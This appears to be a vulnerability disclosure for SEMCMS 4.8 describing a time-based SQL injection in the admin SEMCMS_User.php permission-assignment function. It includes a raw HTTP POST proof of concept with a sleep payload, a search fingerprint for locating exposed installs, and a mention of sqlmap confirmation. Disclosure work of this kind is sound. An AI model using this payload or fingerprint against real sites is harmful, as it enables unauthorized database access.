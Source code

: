 SEMCMS foreign trade website management system has foreground sql injection vulnerability

website address：http://www.sem-cms.com
Vulnerability Overview:

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages. Due to the permission assignment function, CF=feipei ID parameter input in SEMCMS_User.php is not filtered, resulting in sql injection vulnerability
 

app="SEMCMS"

![图片](https://github.com/lampSEC/semcms/assets/88041357/d0575565-21de-4e1b-b204-ab27abed3b05)


Download address

http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip

![image](https://github.com/lampSEC/semcms/assets/88041357/8817ca27-7cc1-40e0-b1aa-0608a9be88e5)


ID Permission parameters Concatenate sql statements without filtering
 



![image](https://github.com/lampSEC/semcms/assets/88041357/c449aff6-00a4-4297-86bc-70e2c0473446)


（The uid parameter is the user ID. The administrator permission is modified again this time. After the test is completed, the database is modified to restore the permission ）
The original permission of the administrator : 74,76,77,87,88,116,123,170,75,78,79,80,81,82,83,84,89,100,181

![image](https://github.com/lampSEC/semcms/assets/88041357/e3ca438c-e988-4cc6-b4d4-15954fd45bd8)


poc

![image](https://github.com/lampSEC/semcms/assets/88041357/29047e76-a987-4d3c-9f55-40f3eda297b8)




![image](https://github.com/lampSEC/semcms/assets/88041357/324feef4-9c03-42e3-bb6a-c99ad3827dac)


sleep 3 seconds

![image](https://github.com/lampSEC/semcms/assets/88041357/9bdde0ab-f8e8-4699-9349-c26c118343f9)


![image](https://github.com/lampSEC/semcms/assets/88041357/33f660ae-fcf6-49f1-86cd-61414573fc75)


 ```
 POST /MtHDbu_Admin/SEMCMS_User.php?CF=fenpei HTTP/1.1
 Host: 192.168.96.1
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 28
 Origin: http://192.168.96.1
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 ID[]=77'+and+sleep(3)#&uid=1
 ```



 

Sqlmap authentication ：

![image](https://github.com/lampSEC/semcms/assets/88041357/90a99dbd-f67b-440d-871d-c66fb1de7db5)


The test is complete. Modify the database administrator rights

74,76,77,87,88,116,123,170,75,78,79,80,81,82,83,84,89,100,181

![image](https://github.com/lampSEC/semcms/assets/88041357/17b8e1d4-015f-4387-8c2d-4fd69a27a09e)


Test completed (If you do not want to change administrator permissions, you can create a test user again)

 
